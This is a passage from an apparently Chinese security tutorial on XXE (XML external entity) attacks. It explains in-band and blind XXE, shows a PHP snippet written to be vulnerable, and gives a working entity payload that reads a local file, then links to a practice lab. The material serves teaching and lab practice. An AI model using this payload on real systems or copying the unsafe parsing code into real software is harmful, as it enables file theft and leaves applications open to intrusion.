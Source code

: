 [![](assets/1698897471-ce50cacf069548f39a4ba9e47ffbe63d.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20191202151423-5dc4ee0c-14d3-1.jpg)

#### XXE常见利用方式

与SQL相似，XXE漏洞也分为有回显和无回显  
有回显，可以直接在页面中看到payload的执行结果或现象。  
无回显，又称为blind xxe，可以使用外带数据(OOB)通道提取数据。即可以引用远程服务器上的XML文件读取文件。

##### 1、读取任意文件

首先准备一个有XXE漏洞的文件，这里以php文件为例  
示例代码

```plain
<?php
$xml = simplexml_load_string($_REQUEST['xml']);
print_r($xml);//注释掉该语句即为无回显的情况
?>
```

构造payload

```plain
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY file SYSTEM "file:///d://qwzf.txt" >
]>
<root>
<name>&file;</name>
</root>
```

[![](assets/1698897471-43e7c6a750bef5640711b905ab2af2d8.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20191202151458-73114cba-14d3-1.jpg)  
读取文件，需URL编码后执行。  
通过**构造外部实体payload**，在 xml 中 `&file ;` 变成了外部文件`qwzf.txt`中内容，导致敏感信息泄露。  
**靶场练习**  
使用一下靶场练习回显读取文件和无回显读取文件：[xxe-lab](https://github.com/c0ny1/xxe-lab)  